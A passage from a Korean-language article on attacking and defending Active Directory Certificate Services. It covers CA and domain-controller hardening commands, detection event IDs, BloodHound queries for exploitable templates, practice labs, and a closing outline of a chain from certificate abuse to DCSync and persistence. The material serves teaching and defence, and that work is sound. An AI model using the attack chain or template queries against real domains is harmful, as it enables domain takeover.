| **EDITF_ATTRIBUTESUBJECTALTNAME2 비활성 (ESC6)** | `certutil -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2 && net stop certsvc && net start certsvc` |
| **ICPR EPA 강제 (ESC11)** | `certutil -setreg CA\InterfaceFlags +IF_ENFORCEENCRYPTICERTREQUEST` |
| **ManageCA / ManageCertificates ACE 최소화 (ESC7)** | pkiview.msc / `Certification Authority`의 Security 탭 |
| **Web Enrollment 역할 서비스 제거 또는 EPA = Required (ESC8)** | Server Manager → Role Services, IIS `Extended Protection = Required` |

### 6.3 DC(KDC) 레벨 — KB5014754

```powershell
# DC에서 강한 매핑 강제 (2 = Full enforcement)
Set-ItemProperty 'HKLM:\System\CurrentControlSet\Services\Kdc' `
  -Name StrongCertificateBindingEnforcement -Value 2 -Type DWord

# 약한 매핑 비트 제거 (강한 매핑만 허용)
Set-ItemProperty 'HKLM:\System\CurrentControlSet\Services\Kdc' `
  -Name CertificateMappingMethods -Value 0x18 -Type DWord
# 0x18 = 0x10 (Subject) 끄고 0x20 (Issuer+Serial), 0x40 (SKI), 0x80 (SHA1) 유지한 예시
# 조직 상황별로 재검토 필요 — 공식 가이드 확인
```

**주의**: 호환 모드(1)에서 바로 Full(2)로 가지 말고, `CompatibilityMode`에서
**감사 이벤트(Event ID 39, 40, 41 — `Microsoft-Windows-Kerberos-Key-Distribution-Center`)**로
약한 매핑을 사용하는 인증서를 찾아 **그 발급 체인을 먼저 교정**한 뒤
전환하세요.

### 6.4 ADIDNS와 Tier-0 ACL

CA 서버는 **Tier-0**로 취급합니다. CA 호스트의 로컬 관리자·CA 서비스 계정·
PKI 운영자 그룹 모두 DA/EA 수준의 보호를 받아야 합니다. `AdminSDHolder`
보호 대상 그룹에 CA 운영자 그룹을 포함시키는 것도 고려합니다.

- 출처: [Microsoft — KB5014754 전개 가이드](https://support.microsoft.com/kb/5014754), [Microsoft — AD CS 보안 모범 사례](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/)

---

## 7. 탐지 — 발급·인증 양쪽에서

| Event ID | 소스 | 의미 |
|---|---|---|
| 4886 | `Microsoft-Windows-CertificationAuthority` | 요청 수신 |
| 4887 | 상동 | 발급 성공 — SAN·템플릿·요청자 포함 |
| 4888 | 상동 | 발급 거부 |
| 4889~4898 | 상동 | CA 설정 변경 (EDITF 포함) |
| 4662 | Security (DC) | AD 객체 쓰기 — `pKICertificateTemplate` 또는 `msDS-KeyCredentialLink` |
| 39 / 40 / 41 | `Microsoft-Windows-Kerberos-Key-Distribution-Center` | KB5014754 호환 모드 매핑 감사 |
| 4768 | Security (DC) | AS-REQ (TGT 발급) — **`Certificate Information` 필드**가 PKINIT 여부를 알림 |

**발급 측 탐지 포인트**:
- `certipy req` 패턴: **짧은 시간에 서로 다른 UPN·SAN** 요청이 동일 발신자로
  들어오면 템플릿 악용 가능성.
- EDITF 플래그가 실행 중에 토글되면 ESC7 중 공격.

**인증 측 탐지**:
- 비대화형 머신 계정이 PKINIT로 `administrator`를 UnPAC — 4768 + 4624 상관.
- 익명/저특권 사용자의 `msDS-KeyCredentialLink` 쓰기(4662) — Shadow Credentials.

### 7.1 BloodHound CE 질의

```cypher
// ESC1 조건 템플릿 찾기
MATCH (t:CertTemplate)
WHERE t.enrolleesuppliessubject = true
  AND t.authenticationenabled = true
  AND t.enrolleeonbehalfof = false
  AND t.requiresmanagerapproval = false
RETURN t.name LIMIT 25

// 각 사용자의 Shadow Credentials 가능 경로
MATCH p=(a)-[:AddKeyCredentialLink|GenericAll|GenericWrite|Owns]->(t:User)
RETURN p LIMIT 25
```

BloodHound CE의 AD CS 데이터 수집은 [`SharpHound`의 `--collectioningroup All` + Certipy의 `-bloodhound`](https://support.bloodhoundenterprise.io/hc/en-us/articles/17322357790107)를
병용합니다.

- 출처: [Microsoft — CA 감사 이벤트](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/), [Microsoft — KB5014754 감사 이벤트 ID 39/40/41](https://support.microsoft.com/kb/5014754), [Certipy ly4k README](https://github.com/ly4k/Certipy)

---

## 8. 실습 환경 (공개 랩)

| 환경 | 다루는 기법 | 공식 문서 |
|---|---|---|
| [GOAD — "SEVENKINGDOMS" ESC 시나리오](https://orange-cyberdefense.github.io/GOAD/) | ESC1, ESC6, ESC8 (Web Enrollment + PetitPotam) | GOAD README의 ADCS 섹션 |
| [GOAD-Light](https://github.com/Orange-Cyberdefense/GOAD) | 축소판, ESC1·ESC8 기본 경로 | 상동 |
| [HTB — Escape (은퇴)](https://www.hackthebox.com/machines/Escape) | ESC1 (`UserAuthentication` 템플릿 변형) + MSSQL 피벗 | HTB 공식 Writeups |
| [HTB — Authority (은퇴)](https://www.hackthebox.com/machines/Authority) | Ansible vault + ADCS ESC 체인 | 상동 |
| [HTB — Certified (은퇴)](https://www.hackthebox.com/machines/Certified) | Shadow Credentials + ESC9 유사 체인 | 상동 |
| [TryHackMe — Attacktive Directory](https://tryhackme.com/room/attacktivedirectory) | 기본 AD 체인 (ADCS 이전 단계 확인용) | 방 공식 설명 |

AD CS 변경은 **되돌려도 발급된 인증서는 그대로 유효**하므로 랩에서도 각 발급의
`requestID`와 발행자를 기록해 두세요. 실제 레드팀 교전에서는 **보고서에 모든
발급 요청 ID와 CRL/revocation 권고**를 반드시 포함합니다.

---

## 9. 다음 단계로 이어지는 공격

- **DC 장악까지**: ESC8 (또는 ESC1/ESC4의 머신 템플릿) → PKINIT →
  UnPAC-the-hash → 머신 계정 NT 해시 → `secretsdump` DCSync. 포이즈닝/Coercion
  쪽 세부는 [[AD 심화 — 강제 인증과 릴레이의 이해와 방어]].
- **Kerberos 체인 재진입**: Shadow Credentials로 사용자 가장 후
  [[AD 환경 Kerberos 체인 공격 — 위임 남용과 토큰 가장으로 DC 장악|Kerberos
  위임 체인]]의 S4U2Self/S4U2Proxy로 다시 들어가면 **인증서 → 티켓 → 위임**
  3단 연계가 됩니다.
- **지속성(Persistence)**: 공격자가 발급받은 유효 인증서는 CA 롤오버 전까지
  남습니다. 특히 **머신 계정 인증서**는 비밀번호 리셋으로 지워지지 않으므로
  탐지·대응 시 **인증서 폐기(CRL)와 NTAuth 저장소 정리**가 필요합니다. 더
  깊은 공격자 지속성 기법은 [[공격 체인 이전의 AD 아키텍처 기초 — Kerberos, NTLM, DACL·ACE, GPO·SYSVOL, 도메인 트러스트|AD 아키텍처 기초]]의 AdminSDHolder 절과 이어집니다.
- **포레스트 경계**: 같은 Forest 내 교차 도메인 Enterprise CA가 있다면 ESC1~15의
  영향이 Forest 전체로 번집니다. **보안 경계는 Forest**라는 원칙이 PKI에서도
  그대로 유지됩니다.

---

- 출처 모음: [SpecterOps — Certified Pre-Owned (백서)](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf), [ly4k/Certipy](https://github.com/ly4k/Certipy), [HackTricks — AD CS](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates), [Microsoft — KB5014754](https://support.microsoft.com/kb/5014754), [dirkjanm — Shadow Credentials / PKINIT](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/), [TrustedSec — EKUwu(ESC15)](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc), [Oliver Lyak — ESC9/ESC10 심화](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7), [Microsoft — EDITF](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-wcce/dc65a4ee-8ac7-4bc5-a7ec-db9eef3a0a21), [Orange Cyberdefense GOAD](https://github.com/Orange-Cyberdefense/GOAD)
